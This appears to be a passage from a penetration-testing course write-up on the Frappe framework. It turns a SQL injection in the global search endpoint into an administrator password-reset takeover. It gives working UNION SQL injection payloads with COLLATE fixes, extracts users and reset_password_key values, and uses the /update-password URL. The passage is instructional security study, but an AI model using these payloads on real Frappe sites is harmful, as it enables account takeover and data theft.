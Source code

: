 # Authentication Bypass (PW Reset)

Once we’ve obtained the initial SQL injection, we need to leverage it to escalate privileges and gain access into the application. 

The `PyMySQL` library does not allow multiple queries in 1 execution unless `multi=True` is set in the execute function, which is not applicable in this case. Hence, we have to stick with that specific `SELECT` query rather than stacking `INSERT` or `UPDATE` functionality.  

Frappe passwords are hashed with the PBK DF2 hash, making them rather difficult to crack. An easier route might be to highjack the password reset token. (Source: [https://discuss.frappe.io/t/how-to-see-password-on-database/85172/4](https://discuss.frappe.io/t/how-to-see-password-on-database/85172/4))

## Admin User Information

According to the [documentation](https://frappeframework.com/docs/user/en/basics/users-and-permissions#password-hashing) for Frappe, user credentials are stored in the table `__Auth` under the column names `name` and `password`. We’ll send a relevant request to extract the data, however, are met with the error message “Illegal mix of collations for operation UNION”

```sql
test_scope" UNION ALL SELECT 1,2,3,4,name FROM __Auth#
```

When [searching](https://stackoverflow.com/questions/20456152/mysql-error-illegal-mix-of-collations-for-operation-union) up the error message, we find that collation refers to the encoding style and MySQL requires columns to have the same type of collation when joining. If we knew what the collation style was, we could use the `COLLATE` command to force them to have join. We’ll query the `information_schema` table to get the collation style.

```sql
cmd=frappe.utils.global_search.web_search&text=offsec&scope=test_scope" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE table_name = "__Auth" #

Output: utf8mb4_unicode_ci

cmd=frappe.utils.global_search.web_search&text=offsec&scope=test_scope" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE table_name = "__global_search" 

Output: utf8mb4_general_ci
```

Given the difference, we’ll `COLLATE` our collation type to be the same as the global search table, `utf8mb4_general_ci`. 

```sql
test_scope" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#

Output: 
Administrator
zeljka.k@randomdomain.com
```

## Reset Password Key

We need to look for a potential injection point to find where the reset password keys are stored. Since Frappe uses a metadata-driven pattern, the database holds a lot of tables and would require a lot of time to go through. By sending a test user into the forgot password functionality, we can check the SQL logs to determine the functionality when handling a forgot password. This method is particularly useful for applications that aren’t well-documented publicly. 

From this statement, we can see that these tokens are stored in the `tabUser` table. 

```sql
select * from `tabUser` where `name` = 'testUser@mail.com' order by modified desc
```

Let’s get the column names from the `tabUser` table:

```sql
test_scope" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE table_name = "tabUser"#

(Important) Output: name, reset_password_key
```

Now, we’ll get the reset password key (note that similar to the `__Auth` table we’ll have to collate with `utf8mb4_general_ci`)

```sql
test_scope" UNION ALL SELECT 1,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser WHERE name = "zeljka.k@randomdomain.com" #
```

## Using password key

Checking our application for the `reset_password_key` functionality, we find this function that defines the recovery process. As such, we’ll just need to use the URL `/update-password?key=<key>` to gain access to the account. 

```python
def reset_password(self, send_email=False, password_expired=False):
		from frappe.utils import random_string, get_url

		key = random_string(32)
		self.db_set("reset_password_key", key)

		url = "/update-password?key=" + key
		if password_expired:
			url = "/update-password?key=" + key + '&password_expired=true'

		link = get_url(url)
		if send_email:
			self.password_reset_mail(link)

		return link
```

From here, it’s all quite straightforward — we’ll capture the requests for password reset and authentication with burp and simulate them programmatically. We’ve now attained an authenticated session to the web portal.